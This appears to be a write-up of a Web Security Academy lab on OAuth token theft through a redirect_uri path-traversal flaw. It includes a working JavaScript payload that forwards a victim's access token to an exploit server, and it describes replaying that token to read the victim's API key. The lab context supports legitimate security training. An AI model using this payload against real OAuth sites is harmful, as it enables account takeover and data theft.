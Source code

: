 The **substr()** method extracts a part of a string.

<img width="1176" height="729" alt="image" src="https://github.com/user-attachments/assets/ab70d1f5-0509-43ef-8302-9928e8453988" />

hash is reponse from which we leave first charcter which is @ and copy other all
Store above payload in eploit server

<img width="1176" height="729" alt="image" src="https://github.com/user-attachments/assets/506a8202-5027-4edc-9331-0712fd0d0cc3" />


Pasting exploit server id/exploit in redirect url

<img width="1834" height="351" alt="image" src="https://github.com/user-attachments/assets/a2698341-593b-4118-99f1-f68ba8590b37" />


Now we can see get  fragment request of /? But it is not giving us access token beacuser there is some issue in it

<img width="1385" height="115" alt="image" src="https://github.com/user-attachments/assets/a4796edc-1a65-40c2-9caf-f219bbbb3b80" />


You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:

```

<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>

```

Store the above payload and and make appropratite change delivere it we will get access token of admin in access log

<img width="1535" height="777" alt="image" src="https://github.com/user-attachments/assets/1e8c422d-6d4b-498c-a9f2-2b841916b87b" />


Access log gives us Access token

<img width="1897" height="156" alt="image" src="https://github.com/user-attachments/assets/45b84840-2758-4dc3-8dea-2147b41d7249" />


In Repeater, go to the `GET /me` request and replace the token in the Authorization: Bearer header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.

<img width="1391" height="590" alt="image" src="https://github.com/user-attachments/assets/f97b0a9a-1220-4be5-b21b-5b4fd703face" />



Use the **"Submit solution"** button at the top of the lab page to submit the stolen key and solve the lab.

<img width="1540" height="296" alt="image" src="https://github.com/user-attachments/assets/13c7c3f9-948f-477a-ba9f-2618e30cfb7d" />



---
